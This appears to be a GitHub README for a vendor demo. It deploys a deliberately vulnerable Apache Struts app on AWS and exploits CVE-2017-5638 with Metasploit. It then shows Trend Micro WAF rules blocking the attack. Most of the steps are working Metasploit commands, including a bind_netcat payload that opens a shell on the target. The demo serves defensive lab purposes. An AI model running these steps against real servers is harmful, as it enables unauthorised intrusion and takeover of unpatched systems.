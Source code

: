 ## Overview
This demo is created to exploit apache struts with CVE-2017-5638. It will deploy vulnerable struts version with sample demo application on AWS.
Demo is created for 3 AWS regions (Ohio, Oregon, Ireland) with default Ohio region setup. AMI images used in Demo is available in these 3 regions as public AMIs.
In order to setup the environment few hardcoded modifications need to be done on terraform code.

 
## Pre-requisites:
- AWS IAM account with administrator access
- Terraform need to be deployed on user's system with basic configuration
- Metasploit with latest msfupdate in attacker machine.
- if you are setting uo victim outside AWS then you can use following blog post for victim setup.
  http://blog.ud64.com/2017/09/apache-struts-with-cve-2017-5638-set-up.html

NOTE: if in case tomcat service is not started. you can login to EC2 instance and start the same using "#sudo $CATALINA_HOME/bin/startup.sh"

## Hardcoded modifications
- user_data.sh is a bootstrap script which can be modify to add Trend Micro DS agent configuration  
- EC2 Keys are stored in /Scripts directory. you can use the .pem or .ppk to login to EC2 instance over the internet.

## Generic steps for victim setup:
### 1
Deploy terraform template on AWS using terraform plan and terraform apply.
  terraform init
  terraform apply

### 2
Victim domain name will be available in terraform apply output. we have to use the same during our attack 
We have configured proxy with ELB to convert port 8080 to 80.  

### 3
Application URL is configured as struts2_2.3.15.1-showcase/showcase.action

### 4
We can use generic payload for the demo.

set PAYLOAD cmd/unix/generic
set CMD "touch /tmp/hackedsystemexec64"
set PAYLOAD cmd/unix/bind_netcat


### Exploit demo execution steps:
#### Step 1:Open metasploit in attacker system 

#### step 2: search for the CVE-2017-5638
msf>search CVE-2017-5638

#### step 3: use the exploit
msf> use exploit/multi/http/struts2_content_type_ognl

#### step 4: configure the application paramenter in exploit options
msf exploit> show options
msf exploit> set RHOST <Domain name of cloudfront> 
msf exploit> set RPORT 80
msf exploit> set TARGETURI struts2_2.3.15.1-showcase/showcase.action
msf exploit> show options


#### step 5: configure payload
msf exploit> set PAYLOAD cmd/unix/generic
msf exploit> show payload
msf exploit> set CMD "touch /tmp/hackedsystemexec64"
msf exploit> exploit

Also taking over the system can be possible
msf exploit> set PAYLOAD cmd/unix/bind_netcat
msf exploit> exploit

cmd> id
cmd> whoami


#### step 6: SSH to public ip of victim server and show the affected file



Complete!!!.. now show the protection with Deep security and/or Trend Micro managed WAF rules. 

---------------------------Protection with Trendmicro managed WAF rules or with DS---------

NOW, Login to AWS WAF portal and click on Web ACLs 
-> select Trendmicro-Managed-Rule-ACL
-> select rules tab in right side
-> edit ACL and select Trendmicro managed WAF rule (Apache and Ngnix)
-> now run the exploit again. it should fail
